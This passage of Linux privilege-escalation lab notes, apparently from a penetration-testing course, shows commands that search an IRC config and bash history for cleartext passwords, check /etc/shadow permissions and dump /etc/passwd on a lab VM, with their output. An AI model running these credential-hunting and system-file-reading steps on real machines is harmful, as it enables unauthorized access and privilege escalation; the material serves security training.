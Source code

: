 password321
TCM@debian:~$ cat /home/user/.irssi/config | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
``

## Privilege Escalation - Stored Passwords (History)

Exploitation

Linux VM
1. In command prompt type: cat ~/.bash_history | grep -i passw
2. From the output, make note of the clear-text credentials.

`` 
TCM@debian:~$ cat /home/user/.irssi/config | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
TCM@debian:~$ cat ~/.bash_history | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
``

## Privilege Escalation - Weak File Permissions 

Detection

Linux VM

1. In command prompt type:
ls -la /etc/shadow
2. Note the file permissions

`TCM@debian:~$ ls -al /etc/shadow
-rw-rw-r-- 1 root shadow 809 Jun 17 23:33 /etc/shadow`

Exploitation

Linux VM

1. In command prompt type: cat /etc/passwd

`TCM@debian:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/bin/false
TCM:x:1000:1000:user,,,:/home/user:/bin/bash
`
2. Save the output to a file on your attacker machine